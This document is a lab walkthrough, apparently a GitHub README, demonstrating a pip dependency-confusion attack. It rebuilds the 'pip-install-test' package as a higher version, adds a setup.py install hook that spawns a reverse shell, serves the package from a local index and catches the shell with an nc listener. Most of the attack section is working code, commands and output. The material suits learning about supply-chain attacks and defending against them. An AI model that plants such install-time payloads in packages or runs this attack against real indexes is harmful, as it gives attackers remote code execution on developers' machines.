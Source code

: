 # PIP dependency confusion
![conf](confusion.png)


## Theory
https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610
## Lab setup
- Debian GNU/Linux 12 (bookworm) x64
- Python 3.11.2 
- Python virtualenv
- pip 23.0.1

## POC
We are going to use [pip-install-test package](https://pypi.org/project/pip-install-test), the current version is 0.5.
First of all activate a virtual enviroment:

    python3 -m venv dep-conf
    source dep-conf/bin/activate
    (dep-conf) user@xxxxx:~$ 

Proceed to install the test package:

     pip install pip-install-test -vv
     ...
     Successfully installed pip-install-test-0.5

To perform our attack we must set a local pip repo. This is a very easy task: https://packaging.python.org/en/latest/guides/hosting-your-own-index.
Here I'm going just to create the required folder structure, then I will use Python built-in web server to host the malicious package. My root web folder structure will be the following:

    piprepo.local/
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

You can download the package from this repo and serve it directly using your web server, but for the sake of learning, we are going to recreate the package from scratch. 
Once you have decompressed the archive, you will have the following directory structure:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── pip_install_test.egg-info
        │   ├── dependency_links.txt
        │   ├── not-zip-safe
        │   ├── PKG-INFO
        │   ├── SOURCES.txt
        │   └── top_level.txt
        ├── PKG-INFO
        ├── README.rst
        ├── setup.cfg
        └── setup.py

We can delete some stuff that actually we don't need, since they will be recreated:

        cd pip-install-test-0.6/
        rm -r setup.cfg pip_install_test.egg-info

Now our package source folder structure should be:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── PKG-INFO
        ├── README.rst
        └── setup.py

We are interested in abusing the set-up package procedure, so our payload has to be inserted into setup.py:

       ...
            
        class PostInstallCmd(install):
            def run(self):
                install.run(self)
                print ("Hello, I'm going to confuse U...")
                s=socket.socket()
                s.connect(("127.0.0.1",9001))
                [os.dup2(s.fileno(),f)for f in(0,1,2)]; pty.spawn("sh")
        
        setup(name='pip-install-test',
              version='0.6',
              description='A minimal stub package to test success of pip install',
              long_description=long_description,
              author='Simon Krughoff',
              author_email='krughoff@lsst.org',
              license='MIT',
              packages=['pip_install_test'],
              zip_safe=False,
              cmdclass={
                    'install': PostInstallCmd
                }
              )
The interesting part is the cmdclass attribuite object, that will execute the actual payload, that of course is a reverse shell, to localhost in this case.

## Perform the attack
First create the package (you know that to confuse pip we have to serve a more recent version, here I just incremented it to 0.6). From inside the root package source directory execute:

    pip-install-test-0.6$ python3 setup.py sdist
    ...
    creating dist
    Creating tar archive
    removing 'pip-install-test-0.6' (and everything under it)

You will find the created archive inside the dist folder:

    pip-install-test-0.6$ ls dist
        pip-install-test-0.6.tar.gz

Now we have to move the package inside the web root folder, taking care to respect the required structure for the local pip repository:

    mv dist/pip-install-test-0.6.tar.gz /home/user/piprepo.local/pip-install-test

Then you should have the following structure:

    cd /home/user/piprepo.local/
    ~/piprepo.local$ tree
    .
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

From here we will execute our web server:

    ~/piprepo.local$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

Now we have to trick pip to get our malicious package, we can just update pip-install-test, saying to pip to look in our local repo for the new version. Before to proceed start a nc listener:

     nc -lvp 9001
    listening on [any] 9001 ...

Then from the virtual enviroment perform the package update:

    (dep-conf) user@xxxxx:~$  pip3 install pip-install-test --trusted-host <your_hostname> --index-url http://<your_hostname>:8000 -vv -U
    ...
    Looking up "http://xxxxx:8000/pip-install-test/pip-install-test-0.6.tar.gz" in the cache
    No cache entry available
    ...
    http://xxxxx:8000 "GET /pip-install-test/pip-install-test-0.6.tar.gz HTTP/1.1" 200 1702
    ...
    Attempting uninstall: pip-install-test
    Found existing installation: pip-install-test 0.5
    Uninstalling pip-install-test-0.5:
    ...
    Copying pip_install_test.egg-info to /home/user/dep-conf/lib/python3.11/site-packages/pip_install_test-0.6.egg-info
      running install_scripts
      writing list of installed files to '/tmp/pip-record-8vjjx4uj/install-record.txt'
      Hello, I'm going to confuse U...

Then we shoul get a shell:

    ...
    connect to [127.0.0.1] from localhost [127.0.0.1] 37186
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ id
    id
    uid=1000(user) gid=1000(user) groups=1000(user),995(qubes)
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ 



    
    
        
        

  
    
